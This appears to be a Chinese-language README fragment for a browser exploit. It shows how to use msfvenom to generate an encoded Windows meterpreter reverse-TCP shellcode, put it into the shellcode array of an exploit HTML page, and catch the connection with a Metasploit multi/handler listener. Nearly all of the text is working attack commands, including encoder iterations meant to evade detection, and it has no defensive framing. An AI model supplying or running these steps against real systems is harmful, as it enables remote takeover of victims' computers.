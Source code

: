 ### 利用msf反弹shell

#### msf反弹shell的shenllcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入exploi.html中shellcode[]里。
#### msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```